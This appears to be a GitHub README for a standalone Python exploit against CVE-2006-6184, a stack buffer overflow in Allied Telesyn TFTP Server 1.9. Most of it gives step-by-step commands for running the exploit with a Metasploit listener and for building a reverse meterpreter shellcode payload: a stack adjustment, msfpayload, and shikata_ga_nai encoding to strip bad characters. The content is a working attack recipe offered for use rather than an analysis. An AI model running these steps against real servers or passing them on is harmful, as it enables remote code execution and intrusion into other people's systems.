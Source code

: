 # CVE-2006-6184
This is a python-based standalone exploit for CVE-2006-6184. This exploit triggers a stack-based buffer overflow in Allied Telesyn TFTP Server (AT-TFTP) 1.9, and possibly earlier, allowing remote attackers to cause a denial of service or execute arbitrary code.
### Quick Start

0. let exploit/multi/handler listening
1. python generate.py LHOST LPORT PAYLOAD RHOST RPORT  (PAYLOAD example: windows/meterpreter/reverse_nonx_tcp)
2. happy coding (maybe migrate process first(?))


#### SKIDDIES BEWARE! 
You didn't think it'd be that easy did you?
The payload must be customized to include your own IP address and listening port, so you'll need to generate it yourself.
To do so, use the following steps:
 
1.) Enter the following to create a hex file of the amount that needs to be subtracted from the stack pointer (3500):
```sh
perl -e 'print "\x81\xec\xac\x0d\x00\x00"' > stackadj
```

2.) Next, use the following command to create a staged meterpreter shell payload:
```sh
msfpayload windows/meterpreter/reverse_nonx_tcp LHOST=[your IP] LPORT=[your port] R > payload
```

3.) Then, combine the two files you just created.
```sh
cat stackadj payload > shellcode
```

4.) Finally, let's eliminate the bad characters.
```sh
cat shellcode | msfencode -b '\x00' -e x86/shikata_ga_nai -t python
```

Enter the output as the value of the "payload" variable.
